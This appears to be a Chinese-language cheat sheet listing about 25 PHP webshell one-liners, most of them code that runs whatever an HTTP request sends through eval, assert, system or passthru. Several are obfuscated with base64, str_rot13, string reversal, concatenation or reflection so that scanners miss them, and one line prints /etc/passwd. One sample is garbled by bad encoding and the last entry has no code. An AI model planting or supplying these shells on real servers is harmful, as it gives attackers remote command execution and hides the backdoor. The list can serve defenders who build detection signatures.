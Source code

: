 #### webshell种类 

1._GET变量

```php 
<?=`$_GET[0]`;
```

2._POST变量 

```php  
<?=eval($_POST[0]);?>
```

3.函数变量 

usort函数  *

```php 
<?php usort(...$_GET);
```

include函数 

```php  
<?php
@include($_GET['bug']);
?>
```

getenv函数 

```php  
<?php
eval(getenv('HTTP_CODE'));
?>
```

str_rot13函数 

```php  
<?php eval(str_rot13('riny($_CBFG[cntr]);'));?>
```

4.system函数 

``` php 
<?php  system($_GET["0"]);
```

5.assert函数 

```php 
<?php assert($_POST[sb]);?>
```

6.多个_GET 或 _POST 

```php  
<?php $_GET[a]($_GET[b]);?>
```

```php  
<?$_POST['sa']($_POST['sb']);?>
```

```php 
<?php
$_REQUEST['a']($_REQUEST['b']);
?>
```

7.REQUEST变量 

```php 
<?php eval($_REQUEST['c'])?>
```
8 . .号变形 

```php 
<?php $c='ass'.'ert';$c($_POST[4]);?>
```

9 _FILE变量 

```php  
<?php
    @eval($_FILE['name']);
?>
```

10 _SERVER变量

```php 
<?php
eval($_SERVER['HTTP_E1044']);
?>
```

11  ~取反 

```php 
 <?php $x=~������;$x($_POST['root']); ?>
```

https://zhuanlan.zhihu.com/p/19670117

12 _GLOBALS变量 

```php  
<?php
    @eval($GLOBALS['_POST']['op']);
?>
```

13 file_get_contents函数 

```php  
<?php
	eval(file_get_contents('wu.txt'));
?>
```

14 call_user_func函数 

```php  
<?php
    call_user_func('echo',$_POST['x']);
?>
```

15 base64编码 

```php  
<?php $x=base64_decode("YXNzZXJ0");$x($_POST['c']);?>
```

16 passthru函数 

```php 
<?php passthru($_POST[1])?>
<?php echo 'A PHP Test ';
```

17 arrmap 函数  array_fileter函数

```php 
<?php array_map("ass\x65rt",(array)$_REQUEST['cmd']);?>
```

```php  
<?php
    array_filter(array($_POST['x']),'assert');
?>
```

18 正则匹配类

preg_replace/ mb_ereg_replace/preg_filter等

19 文件包含类

include/include_once/require/require_once/file_get_contents

20 函数泄露敏感信息 

```php 
<?php
  echo "<pre>".file_get_contents( "/etc/passwd" )."<pre>";
?>
```

21 ob_start 

```php  
<?php
ob_start('assert');
echo $_REQUEST['pass'];
ob_end_flush();
?>
```

22 反射型

```php  
<?php 
$s = new ReflectionFunction("assert");
@$s -> invoke($_POST["cmd"]);
?>
```

23 base64加密型

```php 
<?php $a = (strrev(';))"==wOp0lIwIyWUV0RfRCKtVGdzl3c"(edoced_46esab(lave'));
echo $a; ?>
```

24 混合 

``` php 
<?php
 //pwd=jc 
 $a=@strrev(ecalper_gerp); 
 $b=@strrev(edoced_46esab);  
 echo @$a($b(L3h4L2Ug),$_POST[jc],axxa); //    /xx/e
?>
```

25 Shell_Exec
